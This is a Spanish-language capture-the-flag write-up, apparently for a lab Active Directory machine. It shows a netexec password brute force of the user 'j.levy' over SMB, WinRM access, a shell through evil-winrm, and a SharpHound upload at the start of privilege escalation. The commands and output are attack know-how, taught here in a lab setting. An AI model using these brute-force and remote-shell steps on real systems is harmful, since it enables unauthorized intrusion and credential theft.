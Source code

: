 # `j.levy` bruteforce
Después de analizar un rato la situación, no encontramos nada interesante para poder aprovecharnos.

En este punto no puedo hacer mucho, solo puedo coger la cuenta de usuario de `j.levy` que era la que pertenecía al grupo `Remote Management Users` y probar un diccionario de contraseñas un rato rezando para que tenga una contraseña poco robusta.

Y sorprendentemente conseguimos la credencial para este usuario.
```console
nxc smb 192.168.2.6 -u j.levy -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
......
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:marquis STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:freestyle STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:candygirl STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:blackjack STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:amsterdam STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:alone STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [+] control.nyx\j.levy:Password1
```


Podemos comprobar también con `netexec` que podemos hacer uso del protocolo `WinRM` para conseguir una consola interactiva como este usuario.
```console
nxc winrm 192.168.2.6 -u j.levy -p Password1
WINRM       192.168.2.6     5985   CONTROLER        [*] Windows 10 / Server 2019 Build 17763 (name:CONTROLER) (domain:control.nyx)
WINRM       192.168.2.6     5985   CONTROLER        [+] control.nyx\j.levy:Password1 (Pwn3d!)
```

Y con `evil-winrm` conseguimos una shell y podemos ver la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\j.levy\Desktop> type user.txt
587c4dac7a29c5c...
```

# Privilege Escalation
Ahora podemos utilizar `SharpHound` ya que recopila mas información que `bloodhound-python` y quizás encontremos una escalada en base a privilegios de usuarios, ya que después de un rato enumerando la máquina no encuentro nada.

Subimos el ejecutable haciendo uso de la función `upload` que tiene `evil-winrm`
```console
*Evil-WinRM* PS C:\windows\temp\work> upload ../../../../../usr/share/SharpHound.exe

Info: Uploading /home/kali/Desktop/controler/content/../../../../../usr/share/SharpHound.exe to C:\windows\temp\work\SharpHound.exe

Data: 1402880 bytes of 1402880 bytes copied

Info: Upload successful!
```
